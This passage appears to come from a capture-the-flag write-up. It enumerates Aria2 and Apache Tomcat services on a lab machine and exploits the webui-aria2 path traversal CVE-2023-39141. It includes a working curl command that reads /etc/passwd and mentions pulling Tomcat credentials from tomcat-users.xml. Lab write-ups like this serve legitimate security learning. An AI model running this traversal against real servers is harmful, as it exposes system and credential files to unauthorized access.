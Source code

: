 There is something called `Aria2` running on port 8888.

![](<Pasted image 20241012135036.png>){: w="700" h="300" .center }

> [aria2.github.io](https://aria2.github.io/)
> 
> aria2 is a **lightweight** multi-protocol & multi-source command-line **download utility**. It supports **HTTP/HTTPS**, **FTP**, **SFTP**, **BitTorrent** and **Metalink**. aria2 can be manipulated via built-in **JSON-RPC** and **XML-RPC** interfaces.
{: .prompt-info}

There is also `Apache Tomcat 8.5.93` running on **port 8080**.

![](<Pasted image 20241012135047.png>){: w="700" h="300" .center }

Trying to access `/manager/status`, we are required to provide credentials.

![](<Pasted image 20241014194652.png>){: w="700" h="300" .center }

After some manual enumeration, I found the `Aria2`'s version within `settings > server info`

![](<Pasted image 20241014194954.png>){: w="700" h="300" .center }

## Flag 1
### CVE-2023-39141

Looking for vulnerabilities in this version, I found `CVE-2023-39141`.

> [nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2023-39141) - CVE-2023-39141
> 
> webui-aria2 commit 4fe2e was discovered to contain a path traversal vulnerability.
{: .prompt-info}

`Jafar Akhondali` has an the instructions to exploit this LFI vulnerability.

> [PoC](https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e) - CVE-2023-39141
> 
> When `node-server.js` is used, an attacker can simply request files outside the serving path 
> 
> `curl --path-as-is http://localhost:8888/../../../../../../../../etc/passwd`
{: .prompt-tip}

Trying this on the target works as expected.

```console
m3ga@kali:~$ curl --path-as-is http://10.10.235.123:8888/../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
...
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```

Looking inside the `Apache Tomcat`'s user file (tomcat-users.xml), we find a username and a password to authenticate with.
